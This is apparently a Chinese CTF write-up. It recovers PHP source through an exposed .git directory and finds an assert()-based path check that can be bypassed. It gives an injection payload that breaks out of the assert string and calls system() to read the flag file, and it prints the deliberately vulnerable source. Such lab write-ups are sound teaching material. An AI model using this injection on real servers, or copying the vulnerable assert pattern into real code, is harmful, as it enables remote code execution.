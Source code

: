 ![输入图片说明](image/861ec8e7dea94686b121aaee192175f5.png)
发现了git

![输入图片说明](image/02f6401cf3f54ce1807776187ceb2954.png)

使用GitHack下载一下源文件，找到了php源代码

```csharp
<?php

if (isset($_GET['page'])) {
	$page = $_GET['page'];
} else {
	$page = "home";
}

$file = "templates/" . $page . ".php";

// I heard '..' is dangerous!
assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");

// TODO: Make this look nice
assert("file_exists('$file')") or die("That file doesn't exist!");

?>
```

解析

```csharp
<?php
// 获取GET参数中的page值，如果不存在则默认为"home"
if (isset($_GET['page'])) {
    $page = $_GET['page'];
} else {
    $page = "home";
}

// 拼接文件路径，将page值作为文件名
$file = "templates/" . $page . ".php";

// 安全检查：确保路径中不包含".."（目录遍历攻击防护）
assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");

// 安全检查：确保文件存在
assert("file_exists('$file')") or die("That file doesn't exist!");
?>
```

解题：

![输入图片说明](image/275e5f7ec5fd4b33934327f524f1dabd.png)

?page=').system("cat templates/flag.php");//

’)进行闭合
system("cat templates/flag.php")表示在系统中执行cat templates/flag.php命令，该命令用于查看templates目录下的flag.php文件内容

在源码中可以看到flag

![输入图片说明](image/02a51a2f29774b09ae9fc5c593c85c71.png)
